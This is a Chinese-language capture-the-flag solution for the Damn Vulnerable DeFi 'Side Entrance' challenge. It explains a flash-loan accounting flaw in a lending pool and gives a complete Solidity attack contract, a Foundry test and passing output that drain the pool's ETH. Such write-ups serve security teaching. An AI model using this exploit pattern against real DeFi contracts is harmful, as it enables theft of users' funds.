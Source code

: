 ## 题目 [Side Entrance](https://github.com/theredguild/damn-vulnerable-defi/tree/v4.0.0/src/side-entrance)
一个非常简单的资金池允许任何人存入 ETH，并在任何时间提取。  

该池已经有 1000 ETH的余额，并且为了推广他们的系统，正在提供免费的闪电贷。  

你开始时有 1 ETH 的余额。通过将池中的所有 ETH 救出并存入指定的恢复账户来完成挑战。  

## 合约分析
只有一个 `SideEntranceLenderPool` 合约，和上题类似，该合约实现了一个非标准的闪电贷方法。`IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();` 但只能回调借贷合约的 `execute` 方法，并且借贷的是主网币。  
``` solidity
function flashLoan(uint256 amount) external {
    uint256 balanceBefore = address(this).balance;

    IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

    if (address(this).balance < balanceBefore) {
        revert RepayFailed();
    }
}
```
此外，这个合约同时实现了简单的存款和取款函数。  
``` solidity
function deposit() external payable {
    unchecked {
        balances[msg.sender] += msg.value;
    }
    emit Deposit(msg.sender, msg.value);
}

function withdraw() external {
    uint256 amount = balances[msg.sender];

    delete balances[msg.sender];
    emit Withdraw(msg.sender, amount);

    SafeTransferLib.safeTransferETH(msg.sender, amount);
}
```
**问题分析：** 该合约的闪电贷仅仅检查了合约调用前后的余额差异，并没有严格要求借贷的金额和利息在 `execute` 回调中被立即返还。这使得我们可以利用闪电贷借出的 ETH，立即通过 `deposit` 函数存回合约中。这满足了闪电贷的余额检查，同时也增加了我们在合约中的余额。然后，我们可以通过调用 `withdraw` 函数取出所有资金。  

## 题解
攻击合约的设计思路如下：  
1. 在 attack 函数中请求闪电贷借出合约中所有的 ETH。
2. 在 execute 回调中，将借出的 ETH 存入合约。
3. 闪电贷检查通过后，从合约中提取出所有 ETH。
4. 将提取到的 ETH 转移到恢复地址。
``` solidity
contract SideEntranceAttack{
    SideEntranceLenderPool public pool;
    address public recovery;

    constructor(address _pool, address _recovery){  
        pool = SideEntranceLenderPool(_pool);
        recovery = _recovery;
    }

    function attack() external {
        uint256 amount = address(pool).balance;
        pool.flashLoan(amount);
        pool.withdraw();
        payable(recovery).transfer(amount);
    }

    function execute() external payable {
        // 把闪电贷收到的钱全存回去。
        pool.deposit{value:msg.value}();
    }

    receive() external payable{}
}
```
测试调用：  
``` solidity
function test_sideEntrance() public checkSolvedByPlayer {
    SideEntranceAttack sideEntranceAttack = new SideEntranceAttack(address(pool), recovery);
    sideEntranceAttack.attack();
}
```
运行测试：  
```
forge test --mp test/side-entrance/SideEntrance.t.sol
```
运行结果：
```
Ran 2 tests for test/side-entrance/SideEntrance.t.sol:SideEntranceChallenge
[PASS] test_assertInitialState() (gas: 12975)
[PASS] test_sideEntrance() (gas: 268634)
Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 8.45ms (1.59ms CPU time)
```